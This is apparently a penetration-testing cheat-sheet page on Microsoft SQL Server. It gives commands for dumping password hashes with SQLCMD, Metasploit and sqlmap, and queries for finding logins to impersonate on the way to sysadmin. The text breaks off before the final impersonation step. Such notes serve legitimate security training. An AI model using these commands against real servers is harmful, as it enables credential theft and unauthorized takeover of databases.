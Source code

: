 #### Extracting Credentials from MSSQL

*   **Tool:** \[\[SQLCMD]]

    ```sql
    SELECT name, password_hash FROM sys.sql_logins;
    ```
* **Description:** Harvest hashed passwords from the MSSQL database.

#### Extracting SQL Server Hashes

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/admin/mssql/mssql_hashdump
    set RHOSTS <target_ip>
    set USERNAME sa
    set PASSWORD <password>
    run
    ```
* **Description:** Extracts password hashes from the SQL Server, which can be cracked offline.

#### Credential Harvesting via SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```sql
    sqlmap -u "http://<target_url>/vulnerable_script.php?id=1" --dbms=mssql --dump
    ```
* **Description:** Dumps user credentials from the SQL Server through an exploited SQL injection vulnerability.

### Privilege Escalation

#### Impersonate Other Users

* **Tool:** \[\[SQLCMD]]
* SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.  It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using USE master.

1.  **Verifying Current User and Role:** The returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the `sa` user.

    ```c
    1> SELECT SYSTEM_USER
    2> SELECT IS_SRVROLEMEMBER('sysadmin')
    3> GO
    ```
2.  **Find users you can impersonate:** Check if the user `sa` or any other high privileged user is mentioned

    ```c
    1> SELECT distinct b.name
    2> FROM sys.server_permissions a
    3> INNER JOIN sys.server_principals b
    4> ON a.grantor_principal_id = b.principal_id
    5> WHERE a.permission_name = 'IMPERSONATE'
    6> GO
    ```
3.  **Impersonate `sa` user:** We can now execute any command as a sysadmin as the returned value 1 indicates. If you can impersonate a user, even if he isn't sysadmin, you should check if the user has access to other databases or linked servers.
